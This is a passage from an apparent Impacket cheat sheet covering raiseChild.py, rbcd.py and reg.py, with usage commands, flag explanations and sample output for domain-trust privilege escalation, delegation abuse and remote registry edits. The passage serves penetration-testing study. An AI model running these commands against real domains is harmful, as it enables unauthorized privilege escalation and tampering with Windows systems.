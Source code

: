 **Use Case**: Provides interactive shell for lateral movement.[](https://neil-fox.github.io/Impacket-usage-&-detection/)

### 22. raiseChild.py
**Purpose**: Elevates privileges by abusing child domain trust relationships.

**Usage Example**:
```bash
impacket-raiseChild -dc-ip 192.168.1.100 example.local/user1:Password123
```
**Flag Explanations**:
- `-dc-ip 192.168.1.100`: Domain controller IP.
- `example.local/user1:Password123`: Credentials.

**Example Output**:
```
[*] Elevated to Enterprise Admin
```

**Use Case**: Escalates privileges across domain trusts.

### 23. rbcd.py
**Purpose**: Exploits resource-based constrained delegation.

**Usage Example**:
```bash
impacket-rbcd -dc-ip 192.168.1.100 -action write -delegated TEST$ example.local/user1:Password123
```
**Flag Explanations**:
- `-dc-ip 192.168.1.100`: Domain controller IP.
- `-action write`: Modifies delegation settings (options: `read`, `write`).
- `-delegated TEST$`: Target computer account for delegation.
- `example.local/user1:Password123`: Credentials.

**Example Output**:
```
[*] Delegation rights granted to TEST$
```

**Use Case**: Configures RBCD for privilege escalation.[](https://medium.com/%40opabravo/how-to-make-most-impackets-branch-work-via-python-virtual-environments-4ce89db1cf36)

### 24. reg.py
**Purpose**: Reads, modifies, or deletes Windows registry values via MSRPC.

**Usage Example**:
```bash
impacket-reg -dc-ip 192.168.1.100 example.local/user1:Password123@192.168.1.101 query -keyName HKLM\SOFTWARE
```
**Flag Explanations**:
- `-dc-ip 192.168.1.100`: Domain controller IP.
- `example.local/user1:Password123@192.168.1.101`: Target and credentials.
- `query`: Action to perform (options: `query`, `add`, `delete`).
- `-keyName HKLM\SOFTWARE`: Registry key to query.
